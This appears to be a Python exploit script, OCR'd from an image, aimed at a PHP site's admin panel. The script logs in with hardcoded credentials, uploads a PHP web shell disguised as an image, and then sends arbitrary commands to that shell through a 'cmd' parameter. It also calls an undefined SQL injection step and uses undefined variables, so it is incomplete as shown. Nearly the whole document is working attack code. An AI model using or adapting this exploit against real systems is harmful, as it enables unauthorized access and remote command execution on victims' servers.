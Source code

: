 ```python

def login(target):
    path="/admin/index.php"
    url="http://" + target + path
    payload={'user':'admin', 'password':'P4ssw0rd'}
    r=requests.post(url, data=payload, verify=False)
    print(r.status_code)
    return(r.cookies['PHPSESSID'])

def file_upload(target,idcookies):
    path="/admin/index.php"
    url = "http://" + target + path
    payload = {'title':"hpl", 'category':'1', 'Add':'Add'}
    files={'image':('lovecraft.php3',open(path_file,'rb'),'application/x-php')}
    cookies=dict(PHPSESSID=idcookies)
    r= requests.post(url, files=files, data=payload, cookies=cookies, verify=False)

def remote_console(target,command):
    path="/admin/uploads/lovecraft"
    url = "http://" + target + path
    payload = {'cmd':command}
    r=requests.get(url, params=payload, verify=False)
    print(r.text)

def main():
    sqli(target)
    idcookies=login(target)
    file_upload(target,idcookies)
    remote_console(target, command)
	
#start

if __name__=="__main__":
    main()

```

